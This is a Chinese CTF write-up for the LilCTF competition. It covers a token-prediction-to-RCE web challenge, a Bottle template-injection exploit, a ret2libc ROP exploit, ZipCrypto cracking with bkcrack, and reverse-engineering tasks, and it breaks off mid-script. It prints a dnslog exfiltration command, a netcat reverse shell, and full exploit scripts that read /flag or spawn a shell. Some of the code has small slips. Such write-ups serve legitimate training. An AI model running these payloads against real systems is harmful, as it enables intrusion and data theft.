# LilCTF WriteUp By 长信

西恩: https://www.q3qc1n.cn

k0r333:P: https://k0re.xyz

~~给主包们点点关注喵谢谢喵~~

---

# Web


## Ekko_note

### 解题思路：

拿到题目打开靶机主要是注册登录的东西，能白盒干嘛黑盒，先看看附件

**审计源码：**

先摸清楚大概逻辑，然后从利用点一步一步回溯。

首先定位到路由/execute_command,发现回先执行函数check_time_api跟一下

```python
def check_time_api():
    user = User.query.get(session['user_id'])
    try:
        response = requests.get(user.time_api)
        data = response.json()
        datetime_str = data.get('data', '').get('datetime', '')
        if datetime_str:
            print(datetime_str)
            current_time = datetime.fromisoformat(datetime_str)
            return current_time.year >= 2066
    except Exception as e:
        return None
    return None
```

该函数通过调用当前登录用户的“时间 API”接口，获取远程时间，并判断该时间是否在 2066 年或之后

再定位到更新api接口的函数，看到函数名应该能想到这是admin才能执行的操作，在靶机注册了一个用户确实没有该功能，访问/execute_command也只会返回'2066年才完工哈，你可以穿越到2066年看看'因此现在关键点就是先拿到admin权限然后再设置时间api通过时间判定。

```python
def admin_settings():
    user = User.query.get(session['user_id'])
    
    if request.method == 'POST':
        new_api = request.form.get('time_api')
        user.time_api = new_api
        db.session.commit()
        flash('成功更新API！', 'success')
        return redirect(url_for('admin_settings'))
```

在登录用户后还注意到token解了一下：



后面乱码估计可能是加密信息？应该没法session伪造

继续读源码

看到一段非常关键的提示信息

```python
# 欸我艹这两行代码测试用的忘记删了，欸算了都发布了，我们都在用力地活着，跟我的下班说去吧。
# 反正整个程序没有一个地方用到random库。应该没有什么问题。
import random
random.seed(SERVER_START_TIME)
```

看到这个就想到伪随机数爆破，再找找SERVER_START_TIME在哪里定义了

发现在/server_info路由会返回该信息，而且好像也不需要admin权限

```python
@app.route('/server_info')
@login_required
def server_info():
    return {
        'server_start_time': SERVER_START_TIME,
        'current_time': time.time()
    }
```

bp抓到这个包



"server_start_time":1755442533.0704281

估计同一个靶机该值是一直不变的，类似伪随机数的种子

然后定位到忘记密码和重设密码功能，发现重设密码需要填入一个token

token = request.form.get('token')

再看到token生成的逻辑

```python
# 选哪个UUID版本好呢，好头疼 >_<
# UUID v8吧，看起来版本比较新
token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
```

这时候就让ai结合上面信息搞了一个生成token的脚本如下：  


```python
import uuid
import random

# --- The server_start_time you retrieved ---
# 在 Python 3.13 环境下，直接使用服务器返回的完整浮点数
SERVER_START_TIME = 1755311486.0552502
# -------------------------------------------------------------

# 从服务器源码复制的函数
def padding(input_string):
    byte_string = input_string.encode('utf-8')
    if len(byte_string) > 6:
        byte_string = byte_string[:6]
    padded_byte_string = byte_string.ljust(6, b'\x00')
    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
    return padded_int

# 1. 使用服务器启动时间为随机数生成器设置种子
random.seed(SERVER_START_TIME)

# 2. 目标用户名是 'admin'
admin_username = 'admin'
padded_admin = padding(admin_username)

# 3. 直接调用 uuid.uuid8() 函数，就像服务器上一样
#    (此行代码要求Python 3.13或更高版本)
predicted_token = str(uuid.uuid8(a=padded_admin))

print(f"Predicted Admin Reset Token: {predicted_token}")
```

刚开始一直跑不通，让ai调很久都不行，然后去搜了好久原来是最新的python3.14才支持的uuid6-8，安装一下环境再跑就行了。



拿到token，现在去重置管理员密码，邮箱源代码里有：admin@example.com



成功了直接拿刚设的新密码123登录

发现访问路由/execute_command还是不行，不过多了设置api的功能



再看回源代码，可以看到需要接收json格式的数据

```python
data = response.json()
        datetime_str = data.get('data', '').get('datetime', '')
        if datetime_str:
            print(datetime_str)
            current_time = datetime.fromisoformat(datetime_str)
            return current_time.year >= 2066
```

构造json数据（刚开始格式搞错了导致一直解析不了后面跟队友交流了才解决）

```json
{"date":"2066-02-01T12:30:00"}
```

这里可以用webhook也可以再自己的vps上搭建一个api接口返回该json数据

这里我用webhook演示，配置如下：



然后将随机生成的url替换api就行



然后在尝试command路由发现可以了，webhook.site也能接收到请求



然后就是rce了，随便执行力几个命令发现是无回显类型的，先尝试dnslog外带数据

发现很多命令还是没有把数据带出来....后端还有黑名单啊？这怎么做

成功执行的命令只有

```bash
ping \`whoami`.etk6u9.dnslog.cn
```


感觉fuzz貌似也搞不了，再试试反弹shell

试了好几个命令都没成功差点就死心了没想到最后一个可以，也是成功拿shell拿flag

直接展示成功的命令

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc VPS_ip port >/tmp/f
```



成功拿到flag

## ez_bottle

### 解题思路：

给了源码。

`@route('/view/<md5>/<filename>')` 这里有一个模板注入，但是做了黑名单。

`BLACK_DICT = ["{", "}", "os", "eval", "exec", "sock", "<", ">", "bul", "class", "?", ":", "bash", "_", "globals","get", "open"]`

可以发现黑名单里并没有禁止我们使用 `%include()`

那么思路就是二次包含。先上传一个已知路径的文件，再 `include` 即可.

脚本是ai编写的。

```python
import requests
import zipfile
import os
import re
import sys


TARGET_URL = "http://challenge.xinshi.fun:35684"

def create_zip(filename, content):
    """Helper function to create a zip file with specific content."""
    with open(filename, "w") as f:
        f.write(content)
    zip_path = filename.replace('.txt', '.zip')
    with zipfile.ZipFile(zip_path, 'w') as zf:
        zf.write(filename)
    return zip_path

def upload_and_get_md5(zip_path):
    """Helper function to upload a zip and parse the MD5 from the response."""
    try:
        with open(zip_path, 'rb') as f:
            files = {'file': (os.path.basename(zip_path), f, 'application/zip')}
            response = requests.post(f"{TARGET_URL}/upload", files=files)
        
        if response.status_code != 200:
            print(f"[!] Upload failed for {zip_path}, status code: {response.status_code}")
            return None
            
        match = re.search(r'/view/([a-f0-9]{32})/', response.text)
        if not match:
            print(f"[!] Could not parse MD5 from the response for {zip_path}!")
            print(f"    Raw Response: {response.text}")
            return None
        
        return match.group(1)
    except requests.exceptions.RequestException as e:
        print(f"[!] Network error during upload of {zip_path}: {e}")
        return None

# --- Attack Flow ---

# 1. First Upload: The malicious payload
print("[*] Step 1: Preparing and uploading the malicious payload file...")
payload_filename = "payload.txt"
payload_content = "{{__import__('os').popen('cat /flag').read()}}"
payload_zip_path = create_zip(payload_filename, payload_content)
print(f"[+] Payload ZIP '{payload_zip_path}' created.")

md5_payload = upload_and_get_md5(payload_zip_path)
if not md5_payload:
    sys.exit(1)
print(f"[+] Malicious payload uploaded successfully. MD5: {md5_payload}")

# 2. Second Upload: The trigger file
print("\n[*] Step 2: Constructing and uploading the trigger file...")
trigger_filename = "trigger.txt"

trigger_content = f"%include('uploads/{md5_payload}/{payload_filename}')"
# ==========================================================================
print(f"[+] Trigger content will be: {trigger_content}")

trigger_zip_path = create_zip(trigger_filename, trigger_content)
print(f"[+] Trigger ZIP '{trigger_zip_path}' created.")

md5_trigger = upload_and_get_md5(trigger_zip_path)
if not md5_trigger:
    sys.exit(1)
print(f"[+] Trigger file uploaded successfully. MD5: {md5_trigger}")

print("\n[*] Step 3: Accessing the trigger URL to retrieve the flag...")
flag_url = f"{TARGET_URL}/view/{md5_trigger}/{trigger_filename}"
print(f"[+] Final request URL: {flag_url}")

try:
    flag_response = requests.get(flag_url)
    if flag_response.status_code == 200 and "Error" not in flag_response.text:
        print("\n" + "="*40)
        print("🎉 Flag Retrieved Successfully! 🎉")
        print(f"Flag: {flag_response.text.strip()}")
        print("="*40 + "\n")
    else:
        print(f"[!] Failed to get the flag. Server status: {flag_response.status_code}")
        print(f"    Server Response: {flag_response.text.strip()}")
except requests.exceptions.RequestException as e:
    print(f"[!] Network error while getting the flag: {e}")
    sys.exit(1)
finally:
    # 4. Cleanup
    print("[*] Cleaning up local temporary files...")
    for f in [payload_filename, payload_zip_path, trigger_filename, trigger_zip_path]:
        if os.path.exists(f):
            os.remove(f)
    print("[+] Cleanup complete.")
```

`LILCTF{6ot7le_HaS_BE3N_R3cycLEd}`

---

# Misc


## 是谁没有阅读参赛须知？

### 解题思路：



LILCTF{Me4n1ngFu1_w0rDs}


## 反馈调查

### 解题思路：

点击就送flag


## v我50(R)MB

### 解题思路：

yakit 请求一下图片地址直接出




## PNG Master

### 解题思路：

藏了三段数据，文件尾部一段LSB一段IDAT一段.

flag3 要和文件名 `secret` 异或得出, 其他的简单编码转换即可.

`LILCTF{Y0u_4r3_Mas7er_in_PNG}`


## 提前放出附件

### 解题思路：

简单的明文攻击，注意到是 `ZipCrypto Store` 方式加密，依据 tar 文件的大量已知字节进行攻击。

```bash
bkcrack -C flag.zip -c flag.tar -x 0 666C61672E7478740000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
bkcrack -C flag.zip -c flag.tar -k 945815e7 4e7a2163 e46b8f88 -d flag.tar
```

`LILCTF{Z1pCRyp70_1s_n0t_5ecur3}`

---

# Pwn


## 签到

### 解题思路：

先用checksec看一下



在ida里面分析后  
使用 ROPgadget 从 pwn 二进制文件中筛选出含 pop 或 ret 的 gadgets

Gadgets information

============================================================

0x000000000040101a : ret  


EXP:

```python
From pwn import remote, ELF, p64, u64

def main():
    # 配置目标信息
    target_host = "challenge.xinshi.fun"
    target_port = 36750

    # 加载二进制文件与libc
    elf = ELF("./pwn")
    libc = ELF("/root/附件/libc.so.6")

    # 建立连接
    io = remote(target_host, target_port)
    print(f"已连接到 {target_host}:{target_port}")

    try:
        # 第一阶段：泄露libc地址
        leak_libc(io, elf)

        # 第二阶段：获取shell
        get_shell(io, elf, libc)

    finally:
        # 保持交互
        io.interactive()


def leak_libc(io, elf):
    """泄露libc中的puts函数地址，计算libc基地址"""
    # 关键地址定义
    puts_plt = elf.plt["puts"]
    puts_got = elf.got["puts"]
    main_addr = elf.symbols["main"]
    rdi_gadget = 0x401176  # pop rdi; ret

    # 构造泄露payload
    buffer_size = 120  # 缓冲区溢出长度
    leak_payload = (
        b"M" * buffer_size
        + p64(rdi_gadget)    # 控制rdi寄存器
        + p64(puts_got)      # 传入puts的GOT地址作为参数
        + p64(puts_plt)      # 调用puts函数输出地址
        + p64(main_addr)     # 泄露后返回main函数，准备第二次输入
    )

    # 发送泄露payload
    io.sendlineafter(b"What's your name?\n", leak_payload)

    # 解析泄露的puts地址
    puts_raw = io.recvuntil(b"\x7f")[-6:]  # 提取6字节有效地址
    puts_addr = u64(puts_raw.ljust(8, b"\x00"))  # 补全为8字节并转换为整数

    # 保存全局变量供后续使用
    leak_libc.puts_addr = puts_addr
    print(f"[+] 泄露的puts地址: {hex(puts_addr)}")


def get_shell(io, elf, libc):
    """利用泄露的libc地址计算system和/bin/sh位置，执行getshell"""
    # 计算关键地址
    puts_addr = leak_libc.puts_addr
    libc_base = puts_addr - libc.symbols["puts"]
    system_addr = libc_base + libc.symbols["system"]
    bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))

    print(f"[+] libc基地址: {hex(libc_base)}")
    print(f"[+] system地址: {hex(system_addr)}")
    print(f"[+] /bin/sh地址: {hex(bin_sh_addr)}")

    # 关键gadget定义
    rdi_gadget = 0x401176  # pop rdi; ret
    ret_gadget = 0x40101A  # ret (用于栈对齐)

    # 构造getshell payload
    buffer_size = 120
    shell_payload = (
        b"M" * buffer_size
        + p64(ret_gadget)    # 栈对齐（64位程序调用约定要求）
        + p64(rdi_gadget)    # 控制rdi寄存器
        + p64(bin_sh_addr)   # 传入/bin/sh作为参数
        + p64(system_addr)   # 调用system函数
    )

    # 发送getshell payload
    io.sendlineafter(b"What's your name?\n", shell_payload)
    print("[+] 已发送getshell payload，等待shell...")


if __name__ == "__main__":
    main()

# 交互获取shell
r.interactive()
```



---

# Reverse


## ARM ASM

### 解题思路：
拿到之后是一个apk  
放模拟器运行  
)

运行错误会显示错误  
通过jadx和ida分析求出代码  
查看判断语句有一个check加密了

找到加密逻辑在libez_asm_hahaha里面  
AI分析一下



用汇编写脚本

```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>

void decrypt_data(uint8_t* encrypted, size_t len) {
    // Initial t vector (enc)
    const uint8_t init_t[16] = {
        0x0D, 0x0E, 0x0F, 0x0C,
        0x0B, 0x0A, 0x09, 0x08,
        0x06, 0x07, 0x05, 0x04,
        0x02, 0x03, 0x01, 0x00
    };

    // Precompute t vectors for each block
    uint8_t t_vectors[3][16];

    // Block 0: uses initial t
    memcpy(t_vectors[0], init_t, 16);

    // Block 1: also uses initial t (since i=0 doesn't modify t)
    memcpy(t_vectors[1], init_t, 16);

    // Block 2: t XOR with 0x01 for each byte
    for (int i = 0; i < 16; i++) {
        t_vectors[2][i] = init_t[i] ^ 0x01;
    }

    // Decrypt from last block to first
    for (int block_idx = 2; block_idx >= 0; block_idx--) {
        uint8_t* block = &encrypted[16 * block_idx];
        const uint8_t* t_current = t_vectors[block_idx];
        uint8_t temp[16];
        uint8_t decrypted_block[16] = { 0 };

        // Step 1: XOR with t vector
        for (int j = 0; j < 16; j++) {
            temp[j] = block[j] ^ t_current[j];
        }

        // Step 2: Inverse permutation
        for (int j = 0; j < 16; j++) {
            int original_pos = t_current[j] & 0x0F;
            decrypted_block[original_pos] = temp[j];
        }

        // Copy decrypted block back
        memcpy(block, decrypted_block, 16);
    }
}

int main() {
    // Encrypted data (3 blocks)
    uint8_t encrypted_data[] = {
        0x52, 0x6f, 0x7c, 0x61, 0x79, 0x6b, 0x56, 0x72,
        0x7d, 0x62, 0x43, 0x50, 0x4e, 0x40, 0x48, 0x4c,
        0x68, 0x61, 0x78, 0x61, 0x54, 0x7d, 0x66, 0x6d,
        0x59, 0x6a, 0x72, 0x6b, 0x6f, 0x66, 0x5e, 0x6d,
        0x69, 0x72, 0x79, 0x62, 0x55, 0x66, 0x67, 0x7e,
        0x62, 0x6b, 0x73, 0x5a, 0x6c, 0x67, 0x5f, 0x6c
    };

    printf("Encrypted Data:\n");
    for (size_t i = 0; i < sizeof(encrypted_data); i++) {
        if (i % 16 == 0) printf("\nBlock %zu: ", i / 16);
        printf("%02x ", encrypted_data[i]);
    }
    printf("\n");

    // Decrypt the data
    decrypt_data(encrypted_data, sizeof(encrypted_data));

    // Print decrypted result
    printf("\nDecrypted Data:\n");
    printf("%.*s\n", (int)sizeof(encrypted_data), (char*)encrypted_data);

    return 0;
}
```




## Qt_Creator
### 解题思路：

全局搜索字符串ciallo

交叉引用（Xrefs）跳转到使用 ciallo 字符串的关键函数

在if这里打断点



使用IDA Pro 7.5 + ScyllaHide 插件 绕过程序的反调试机制。

启动调试器运行程序（F9），程序会在预设的 if 断点处暂停

程序暂停后，查看寄存器/内存中 v5 的值


## obfusheader.h

### 解题思路：

全局搜索字符串Please enter the flag

交叉引用（Xrefs）跳转到使用 ciallo 字符串的关键函数。


EXP：

```python
encrypted_data = [
